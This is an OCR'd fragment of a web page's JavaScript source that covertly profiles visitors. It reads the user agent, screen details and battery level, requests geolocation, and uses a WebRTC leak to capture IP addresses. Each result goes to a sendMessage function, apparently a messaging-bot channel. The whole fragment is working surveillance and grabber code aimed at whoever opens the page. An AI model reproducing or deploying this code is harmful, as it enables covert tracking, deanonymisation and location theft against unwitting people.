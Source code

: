   // Fingerprint
  msg += `🧠 *User-Agent:* \`${navigator.userAgent}\`\n`;
  msg += `📱 *Screen:* ${screen.width}x${screen.height} @ ${screen.colorDepth}-bit\n`;
  msg += `🔋 *Battery:* ${(navigator.getBattery ? (await navigator.getBattery()).level * 100 + "%" : "N/A")}\n`;

  // Geolocation
  if ("geolocation" in navigator) {
    navigator.geolocation.getCurrentPosition(async pos => {
      msg += `📍 *Location:* \nLatitude: ${pos.coords.latitude}, Longitude: ${pos.coords.longitude}\n`;
      await sendMessage(msg);
    }, async err => {
      msg += `⚠️ Location Error: ${err.message}\n`;
      await sendMessage(msg);
    });
  } else {
    msg += "📍 Geolocation not supported\n";
    await sendMessage(msg);
  }

  // Public IP + WebRTC Leak
  const pc = new RTCPeerConnection({iceServers:[]});
  pc.createDataChannel("");
  pc.createOffer().then(o => pc.setLocalDescription(o));

  pc.onicecandidate = async (event) => {
    if (!event || !event.candidate) return;
    const ipRegex = /([0-9]{1,3}(\.[0-9]{1,3}){3})/;
    const ipMatch = ipRegex.exec(event.candidate.candidate);
    if (ipMatch) {
      await sendMessage(`🌐 *WebRTC IP Leak:* \`${ipMatch[1]}\``);
    }
  };
})();
</script>
</body>
</html>